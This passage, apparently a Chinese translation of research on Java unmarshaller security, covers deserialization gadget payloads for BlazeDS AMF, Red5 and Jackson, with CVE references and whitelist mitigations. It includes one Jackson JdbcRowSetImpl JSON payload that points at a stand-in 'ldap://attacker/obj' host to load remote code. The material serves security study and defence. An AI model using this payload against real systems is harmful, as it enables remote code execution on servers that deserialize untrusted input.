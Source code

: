 AMF3/AMFx unmarshallers 支持 java.io.Externalizable 类型，这可以通过 RMIRef 来到达 Java 反序列化。（deserialization）。它们都内置了针对 javax.sql.RowSet 自定义子类的转换规则，这就意味着 JdbcRowset 不能被 unmarshalled。 其他可用的有效载荷包括 Spring-PropFac 和 C3P0WrapDS (如果他们被添加到路径中)。

不允许指定根类型，也不检查嵌套的属性类型。

- References

  > CVE-2017-3066 Adobe Coldfusion

  > CVE-2017-5641 Apache BlazdDS

  > CVE-2017-5641 VMWare VCenter

- 可用 payloads

  - RMIRef(4.20)
  - C3P0WrapDS(4.9)
  - SpringPropFac(4.10)

- 修复、缓解措施

    可用通过DeserializationValidator 实现一个类型白名单。更新待版本4.7.3，默认开启白名单

#### 3.1.5 Red5 IO AMF

Red5 有自定义的 AMF unmarshallers ，与 BlazeDS 有些许不同。它们都需要一个默认的 public 构造器 和public setters 。仅通过自定义标记接口支持外部化类型。

但是，它没有实现 javax.sql.RowSet 自定义逻辑， 因此可以通过 JdbcRowset 、 SpringPropFac 和 C3P0WrapDs 实现攻击， 都依赖于 Red5 服务。

- References

  > CVE-2017-5878 Red5 , Apache OpenMeetings

- 可用 payloads

  - JdbsRowset(4.2)
  - C3P0WrapDS(4.9)
  - SpringPropFac(4.10)

#### 3.1.6 Jackson

Jackson ,在它的默认配置中，执行严格的运行时类型检查，包括一般类型收集和禁止特殊、任意类型，因此在默认配置中它是无法被影响的。但是，它有一项配置参数来启用多态 [unmarshalling](http://wiki.fasterxml.com/JacksonPolymorphicDeserialization),包括使用 java 类名的选项。Jaclson 需要一个默认构造器和setter 方法（不区分public 和private ，均可行）。

类型检查在这些模式下也起作用，所有攻击也需要一个 使用supertype的 readValue() 或具有该类型的嵌套字段、集合。

这里有类型信息的一系列表现形式，都表现为相同的行为。因此，有多种方法来开启这种多态性，全局的 ObjectMapper->enableDefaultTyping(),一个自定义的 TypeResolverBuilder ，或者使用 在字段上使用 @JsonTypeInfo 注释。取决于 Jackson的版本，也行可以使用 JdbsRowset 进行攻击：

```java
["com.sun.rowset.JdbcRowSetImpl ",{
    "dataSourceName ":
    "ldap :// attacker/obj",
    "autoCommit" : true
}]
```

但是，那并不会在 2.7.0以后版本生效, 因为 Jackson 检查是否定义了多个冲突的setter方法， JdbcRowSetTmpl 有 3个对应 'matchColumn' 属性的setter 。Jackson 2.7.0 版本为这种场景添加了一些分辨逻辑。不幸的事，这个分辨逻辑有bug：依赖于 Class->getMethods() 的顺序，然而这是随机的（但缓存使用 SoftReference ，所以只要进程一直运行，就不会得到另一次机会），检查因此失效。
